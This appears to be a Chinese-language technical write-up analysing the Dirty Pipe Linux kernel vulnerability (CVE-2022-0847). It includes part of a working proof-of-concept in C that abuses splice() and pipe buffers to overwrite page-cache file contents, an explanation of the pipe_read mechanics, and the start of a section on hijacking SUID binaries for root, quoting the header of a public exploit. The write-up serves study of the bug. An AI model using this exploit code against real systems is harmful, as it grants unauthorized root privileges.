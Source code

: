 ```
    prepare_pipe(p);
    offset--;
 
    ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
    if (nbytes <= 0) return EXIT_FAILURE;
 
    if (write(p[1], data, data_size) != data_size) {
        return EXIT_FAILURE;
    }
 
    // 将管道中的数据全部读取并输出到标准输出
    char output_buffer[PAGE_SIZE];
    ssize_t bytes_read;
    printf("Data in the pipe:!!\n");
    while (bytes_read = read(p[0], output_buffer, sizeof(output_buffer)))
    {
        if (bytes_read < 0) {
            perror("read");
            break;
        }
        write(STDOUT_FILENO, output_buffer, bytes_read); // 输出到标准输出
    }
    printf("It worked!!!\n");
    return EXIT_SUCCESS;
} 
```

![](https://cdn.nlark.com/yuque/0/2025/png/27597334/1744430880303-5ee4efa6-f988-4190-86c5-0fa1c816a60d.png)  
可以弄清楚 pipe_read 的读取方式是通过 buf->offest 和 buf->len 来读取 buf->page 的数据的, 即使 page 里面有完整的内容, 由于其余两个字段的限制, 所以只能输出一个字节!

为什么该 POC 不能覆盖文本文件的第一个字节
-----------------------

```
splice(fd, &offset, p[1], NULL, 1, 0);
```

在 poc 中调用 splice 的时候至少复制一个字节，由于管道的写入机制每次只能向管道后面追加数据，所以被写入管道的第一个字节是无法覆盖的！

六、通过 Dirty_pipe 劫持劫持 SUID 二进制文件进行提权
===================================

参考链接：[DirtyPipe(脏管道) 提权_脏管道提权 - CSDN 博客](elink@40dK9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6T1L8r3!0Y4i4K6u0W2j5%4y4V1L8W2)9J5k6h3&6W2N6q4)9J5c8Y4N6W2K9i4S2A6L8W2)9#2k6U0b7#2y4K6V1@1y4U0j5$3i4K6u0r3j5i4u0@1K9h3y4D9k6g2)9J5c8X3c8W2N6r3q4A6L8s2y4Q4x3V1j5I4x3U0x3K6y4e0V1H3y4K6l9`.)

```
// 漏洞名称: Linux Kernel 5.8 < 5.16.11 - 本地提权漏洞(DirtyPipe)
// 漏洞作者: blasty (peter@haxx.in)
// 原始作者: Max Kellermann (max.kellermann@ionos.com)
// CVE编号: CVE-2022-0847
 
/* SPDX-License-Identifier: GPL-2.0 */
/*
 * 版权所有 2022 CM4all GmbH / IONOS SE
 * 作者: Max Kellermann *
 * Dirty Pipe漏洞的概念验证利用代码
 * 该漏洞由未初始化的"pipe_buffer.flags"变量引起
 * 本程序展示了如何覆盖页面缓存中的任何文件内容
 * 即使文件不可写、不可变或位于只读挂载点
 *
 * 此漏洞利用需要Linux 5.8或更高版本
 * 漏洞利用路径由commit f6dd975583bd ("pipe: merge anon_pipe_buf*_ops")引入
 * 该提交没有引入漏洞，只是使其更容易被利用
 *
```